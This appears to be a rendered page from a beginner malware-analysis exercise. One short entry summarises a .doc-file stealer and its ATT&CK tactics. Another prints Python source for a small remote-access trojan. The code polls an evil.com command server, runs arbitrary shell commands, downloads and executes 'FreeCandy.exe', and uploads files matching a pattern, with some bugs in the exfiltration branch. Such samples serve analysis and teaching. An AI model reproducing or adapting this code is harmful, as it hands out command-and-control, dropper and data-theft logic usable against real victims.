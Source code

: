 
::: title 
#### Baby's Second Malware
:::
- This code searches for files that match "\*.doc" 
- If able, it then reads the contents and uploads them to a remote server
- Verdict: Probably some sort of stealer
- Tactic:  Collection, Exfiltration
- Technique: Command and Scripting Interpreter: Python

---

::: title
#### Baby's third Malware
:::
###
###

```python3
import os, fnmatch, requests, time
def find(pattern, path):
    result = []
    for root, dirs, files in os.walk(path):
        for name in files:
            if fnmatch.fnmatch(name, pattern):
                result.append(os.path.join(root, name))
    return result
def upload(path):
	try:
		with open(path, "rb") as f:
			data = f.read()
		requests.post("https://evil.com/gate/php", data=data)
	except Exception as e:
		pass
	return
	
while True:
	r = requests.get("https://evil.com/gate/php")
	data = r.json()
	if  data["cmd"] == "exec":
		os.system(data["args"])
	elif data["cmd"] == "drop":
		r = requests.get("https://evil.com/evil.exe")
		if r.status_code == 200:
			out = "FreeCandy.exe"
			with open(out, "wb+") as f:
				f.write(r.content)
			os.system(out)
		
	elif data["cmd"] == "exfil":
		p = find(cmd["pattern"], cmd["path"])
		for i in p:
			upload(p)
	else:
		pass
	time.sleep(60)
```

---